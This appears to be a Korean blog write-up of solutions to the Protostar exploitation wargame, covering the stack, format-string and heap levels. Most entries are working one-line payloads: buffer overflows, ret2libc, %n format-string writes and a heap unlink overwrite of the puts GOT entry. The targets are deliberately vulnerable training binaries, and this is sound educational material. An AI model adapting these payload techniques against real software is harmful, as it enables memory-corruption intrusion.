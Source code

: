 ```yaml
---
layout: post
title: "protostar"
description: "protostar"
date: 2017-02-17
tags: [pwnable]
comments: true
share: true
---
```


##### stack0

``` python
(python -c 'print "A"*65';cat)|./stack0
```

##### stack1

``` python
./stack1 `python -c 'print "A"*64+"\x64\x63\x62\x61"'`
```

##### stack2

``` python
export GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
./stack2
```

##### stack3

``` python
(python -c 'print "A"*64+"\x24\x84\x04\x08"';cat)|./stack3
```

##### stack4

``` python
(python -c 'print "A"*76+"\xf4\x83\x04\x08"';cat)|./stack4
```

##### stack5

``` python
ulimit -c unlimited
export aa="ls -al"
(python -c 'print "A"*76+"\xb0\xff\xec\xb7"+"AAAA"+"\x86\xff\xff\xbf"';cat)|./stack5
```

![protostar](/assets/images/protostar/protostar-01.PNG)

stack5번은 쉘코드 실행할 때 주소가 바뀌어서 core 덤프로 분석을 해서 바뀐 /bin/sh 주소를 넣었지만 안됐다.
그래서 ls -al이 박힌 환경변수에 넣고 RTL 했더니 정상적으로 뜬다.

##### stack6

``` python
ulimit -c unlimited
export aa="ls -al"
(python -c 'print "A"*76+"\xb0\xff\xec\xb7"+"AAAA"+"\x2c\xfa\xff\xbf"';cat)|./stack6
```

![protostar](/assets/images/protostar/protostar-02.png)

##### stack7

``` python
ulimit -c unlimited
export aa="ls -al"
(python -c 'print "A"*80+"\x83\x83\x04\x08"+"\xb0\xff\xec\xb7"+"AAAA"+"\x2c\xfa\xff\xbf"')|./stack7
```

![protostar](/assets/images/protostar/protostar-03.png)

0xb0xxxxxxxx 주소도 사용 불가능하다. ret에 ret를 넣어서 ret+4에 해당하는 주소로 넘어가고 RTL 공격이 가능해진다.

##### format0

```python
./format0 `python -c 'print "A"*64+"\xef\xbe\xad\xde"'`
```

##### format1

```python
./format1 `python -c 'print "\x38\x96\x04\x08AAA"+",%129$x"+",%129$x"'`
./format1 `python -c 'print "\x38\x96\x04\x08AAA"+",%129$n"+",%129$x"'`
```

![protostar](/assets/images/protostar/protostar-04.png)

%x 했을 때 값이 나눠져서 대충 때려 맞추는 식으로 했는데 .. 성공했다.

##### format2

```python
(python -c 'print "\xe4\x96\x04\x08"+"%60c%4$n"')|./format2
```

![protostar](/assets/images/protostar/protostar-05.png)

format1번처럼 값이 흩어져 있지 않고 4번째 주소에 바로 박혀있었다. 그래서 target is number가 바뀌는 것을 보고 64를 맞춰서 풀었다.

![protostar](/assets/images/protostar/protostar-06.png)

##### format3

![protostar](/assets/images/protostar/protostar-07.png)

12번째에 0x41이 박혀있었다.

``` python
(python -c 'print "\xf4\x96\x04\x08"+"\xf6\x96\x04\x08"+"%21820c%12$n%43966c%13$n"')|./format3
```

넣을 값의 주소는

080496f4 g     O .bss	00000004              target

target에 들어갈 주소는 0x01025544이다.

포맷 스트링은 2바이트씩 끊어서 넣어야하기 때문에 주소값을 2개 넣었고,

앞에는 5544 - 8byte한 10진수 값 (8바이트를 빼는 이유는 앞에서 주소 값을 넣을 때 8바이트를 사용 했기 때문이다.)

뒤에는 0102인데 여기서 5544를 빼면 음수가 나오기 때문에 10102 - 5544를 하면 4바이트가 박히고 나머지 1바이트는 밀리게 되므로 상관이 없다.

뒤에가 0102이고 앞이 5544인 이유는 리틀 엔디언 때문이다.

![protostar](/assets/images/protostar/protostar-08.png)

![protostar](/assets/images/protostar/protostar-09.png)


##### format4

문제의 힌트에서 objdump -TR을 사용하라고 한다.

![protostar](/assets/images/protostar/protostar-14.png)

![protostar](/assets/images/protostar/protostar-13.png)

4번째에 0x41이 박혔다. 그 이후로 잘 모르겠다.. 더 찾아봐야겠다.

##### heap0

![protostar](/assets/images/protostar/protostar-10.png)

heap은 malloc으로 원하는 크기의 공간을 가지게 되서 그 공간을 다 채우고 더 넣으면 오버플로우가 생긴다.

그래서 A로 buffer + dummy + sfp 인 것 같은데 아무튼 72바이트 다음에 4바이트가 nowinner를 가리키고 있었다.

그래서 winner의 주소값을 알아내고 level passed를 띄웠다.

![protostar](/assets/images/protostar/protostar-11.png)

##### heap1

소스코드를 보면 malloc이 8바이트 생성을 했는데 입력한 값들을 strcpy로 복사를 한다. 첫번째 i1->name에서 오버플로우를 시켜서 두번째에 값을 넣을 주소를 변조 시켜주면 풀 수 있다.

![protostar](/assets/images/protostar/protostar-18.png)

gdb로 까보니 puts로 출력되는 것을 보고 puts의 got에 winner 함수의 주소를 넣었더니 풀렸다.

![protostar](/assets/images/protostar/protostar-15.png)

![protostar](/assets/images/protostar/protostar-16.png)

![protostar](/assets/images/protostar/protostar-17.png)

##### heap3

free를 연속적으로 해서

마지막에 dynamic failed?를 출력할 때 puts를 사용했는데 put GOT에 winner 함수를 넣으면 풀릴 것 이다.


![protostar](/assets/images/protostar/protostar-19.png)

32바이트 크기를 malloc 했고 8바이트는 이에 대한 정보가 들어있다. 그래서 총 40바이트다.

"\x90"으로 버퍼를 채우고 puts got에 winner 함수를 덮어 쓰려고 했는데 세그먼트 폴트가 뜬다. 권한 문제였다.

그래서 실행 할 공간인 스택에 넣기로 했다. 그래서 winner shellcode를 넣고 \xfc\xff\xff\xff를 넣음으로써 prev_size를 조작해서 b address+4로 인식 한다.

prev_size는 이전 chunk의 크기 정보를 기록하는데 이전 chunk의 위치를 조작하는 것이다.

fd+12=bk, bk+8=fd를 이용해서 원하는 주소에 원하는 값을 넣어서 실행 할 수 있다.

그래서 aaaa로 더미 값을 넣고 우리가 실행해야 할 puts got의 -12주소인 0x0804b128-12 = 0x0804b11c를 fd에 넣고 bk에 0x0804c008(winner 함수)을 넣어서 조작을 한다.

마지막 A는 값을 무조건 3개를 넣어야 하니까 dummy 값으로 아무거나 넣었다.


관련 문서와 문제를 계속 풀어봐야겠다..
